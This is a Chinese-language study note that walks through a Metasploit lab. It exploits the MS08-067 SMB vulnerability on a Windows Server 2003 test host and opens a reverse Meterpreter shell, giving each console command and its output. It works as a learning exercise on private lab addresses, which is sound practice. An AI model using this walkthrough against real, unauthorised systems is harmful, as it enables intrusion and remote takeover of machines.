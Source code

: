 ```yaml
---
title: 初识Metasploit
url: 260.html
id: 260
categories:
  - 内网渗透
  - 学习笔记
date: 2018-03-21 21:06:10
tags:
---
```


### 术语简介

###### 漏洞攻击（exploit）：

攻击计算机，导致其产生漏洞的代码

###### 攻击载荷（payload）：

攻陷计算机之后的利用代码，帮助我们控制对方机器

 

### 攻击流程

**攻击机**： Linux kali 4.6.0                 192.168.112.128 **被攻击机**： windows server 2003    192.168.112.131   进入metasploit命令行

msfconsole

搜索对应的exploit

msf > **search ms08_067**
\[!\] Module database cache not built yet, using slow search

Matching Modules
================

Name Disclosure Date Rank Description
 \-\-\-\- \-\-\-\-\-\-\-\-\-\-\-\-\-\-\- \-\-\-\- -----------
 exploit/windows/smb/ms08\_067\_netapi 2008-10-28 great MS08-067 Microsoft Server Service Relative Path Stack Corruption

选择对应的exploit

msf > **use exploit/windows/smb/ms08\_067\_netapi**

查看对应exploit需要设置的参数

msf exploit(ms08\_067\_netapi) > **show options**

Module options (exploit/windows/smb/ms08\_067\_netapi):

Name   Current Setting Required Description
\-\-\-\-   \-\-\-\-\-\-\-\-\-\-\-\-\-\-\- \-\-\-\-\-\-\-\- \-\-\-\-\-\-\-\-\-\-\-
**RHOST**                  yes      The target address
**RPORT**   445            yes      The SMB service port
**SMBPIPE** BROWSER        yes      The pip name to use (BROWSER, SRVSVC)

Exploit target:

Id Name
 \-\- ----
 0 Automatic Targeting

需要设置对方ip RHOST

msf exploit(ms08\_067\_netapi) > **set RHOST 192.168.112.131**
RHOST => 192.168.112.131

然后，exploit

msf exploit(ms08\_067\_netapi) > **exploit**

\[*\] Started reverse TCP handler on 192.168.112.128:4444 
\[*\] 192.168.112.131:445 - Automatically detecting the target...
\[*\] 192.168.112.131:445 - Fingerprint: Windows 2003 - - lang:Unknown
\[*\] 192.168.112.131:445 - Selected Target: Windows 2003 SP0 Universal
\[*\] 192.168.112.131:445 - Attempting to trigger the vulnerability...
\[*\] Sending stage (957999 bytes) to 192.168.112.131
\[*\] Meterpreter session 1 opened (192.168.112.128:4444 -> 192.168.112.131:1038) at 2018-03-21 21:04:03 +0800

meterpreter >

成功攻陷对方权限，获得一个meterpreter shell 一次简单的远程主机攻击就完成了